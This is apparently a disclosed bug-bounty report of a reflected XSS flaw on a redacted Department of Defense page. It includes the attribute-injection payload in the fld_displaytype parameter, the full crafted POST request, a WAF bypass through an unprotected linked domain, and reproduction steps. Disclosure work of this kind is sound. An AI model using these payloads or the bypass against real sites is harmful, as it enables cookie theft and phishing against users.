 # [XSS] Reflected XSS via POST request

## Report Details
- **Report ID**: 1850235
- **URL**: https://hackerone.com/reports/1850235
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-29T09:11:28.377Z
- **Disclosed**: 2023-02-24T19:05:12.588Z

## Reporter
- **Username**: 0xd3adc0de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
XSS vulnerability found on one of `█████████` subdomains. [ DoD scope]

After analyzing `https://██████████/` I found `██████/████████-historic.cfm` page that send some parameters to servers.  `fld_displaytype` parameter vulnerable to XSS vulnerability.

`fld_displaytype=S` changed to `fld_displaytype=S"%20accesskey%3d"X"%20onclick%3d"alert('XSS Success!')`

WAF deployed on the endpoint to prevent such a attacks but I found another domain linked to this host but WAF did not cover that so I success to fire the payload.

By sending the POST request to `https://█████████████████/` , payload has been successfully triggered. 

```
POST /██████/███████-historic.cfm HTTP/1.1
Host: █████████
Cookie: CFID=29878711; CFTOKEN=71972184
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 347
Origin: null
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

fld_graphfs=Y&fld_graphrs=N&fld_graphy1=N&fld_graphy2=N&fld_normal=Y&fld_max=Y&fld_min=Y&Submit=View-Graph&fld_from1=01%2F01%2F2023&fld_to1=12%2F31%2F2023&fld_displaytype=S"%20accesskey%3d"X"%20onclick%3d"alert('XSS Success!')&fld_type1=Plot&fld_frompor=&fld_topor=&fld_year1=2023&fld_year2=2023&fld_mon1=01&fld_day1=01&fld_mon2=12&fld_day2=31&fld_param=HT

```


- **WAF enabled** https://████████████/

██████████
- **WAF disabled** https://███████████████/

███


**Summary:**
Trigger a hidden stored XSS payload requires user interaction*.
user should press ALT+SHIFT+X to call hidden payload.

## References
https://owasp.org/www-community/attacks/xss/

## Impact

By exploiting this vulnerability an attacker can trick the users to execute XSS and steal user's cookies.
Launch advanced phishing attacks.
Execute browser-based attacks etc.

## System Host(s)
████████████, ████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
**Firefox**

* Visit the following URL using Firefox
`https://████████████/██████/█████████-historic.cfm`

* Intercept the request before click on `View-Graph`

* Change `fld_displaytype=S` to `fld_displaytype=S"%20accesskey%3d"X"%20onclick%3d"alert('XSS Success!')` in request body.

* press ALT+SHIT+X and you will receive `XSS Success!` alert box.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
